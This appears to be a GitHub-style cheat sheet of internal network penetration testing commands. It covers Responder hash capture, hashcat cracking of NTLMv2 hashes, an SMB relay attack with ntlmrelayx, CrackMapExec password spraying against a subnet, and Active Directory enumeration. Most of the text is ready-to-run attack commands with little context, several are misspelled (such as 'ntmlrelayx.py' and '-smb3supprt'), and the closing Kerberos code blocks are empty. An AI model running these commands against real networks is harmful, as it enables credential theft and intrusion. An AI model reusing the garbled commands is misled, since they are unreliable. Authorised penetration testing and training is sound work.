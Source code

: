 # Internal Network Pentesting
Notes for Internal Network Pentesting 


###  Nmap

```bash
nmap -sn 192.168.1.1/24
```
```bash
nmap -sV -sC -A -p- IP-Address
```

###  Responder

```bash
responder -I <interface> -rdw
```
#### After capturing NTLM Hash (copy the captured hash into .txt format) copy full hash from username to end of the hash.

```bash
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```

### SMB Relay attack
#### Make sure you turn off the SMB and HTTP from responder configuration

```bash
nano /etc/responder/Responder.conf
```
- For this attack you need to have ntml hash, use can use responder for capture hash.
- Scanning for Signing disabled machines, make sure you save the host example : TargetHost.txt
```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.1/24,134 -Pn --open | tee -a target.txt
```

#### Use ntlmrelayx
```bash
python3 ntmlrelayx.py -tf /path/to/target_host_nmap_above -smb3supprt
```

### CrackMapExec 

```bash
crackmapexec smb "10.0.9.0/24" -u "FirstName.LastName" -p /path/to/password.txt
```

### Active Directory
#### Nmap. 
```bash
nmap -Pn -sV -sC -oN top IP-Address
```
- Look for ports such as :
```bash
53 → DNS
139,135,445 → RPC or SMB
3389 → RDP or domain controller
88 → kerberos
389 → Ldap
636 → ldaps
445 → SMB
```
#### enum4linux
```bash
enum4linux -A IP-Address
```
 #### Abusing Kerberos.
 - Kerbrute can be used to perform discovery of user,passwords and even password spray. It's just a bruteforce tool so you need have a list of username and password. Recommendation : Try building custom username (of an organization) and password.
```bash

```
```bash

``````bash

```
```bash

``````bash

```
```bash


```

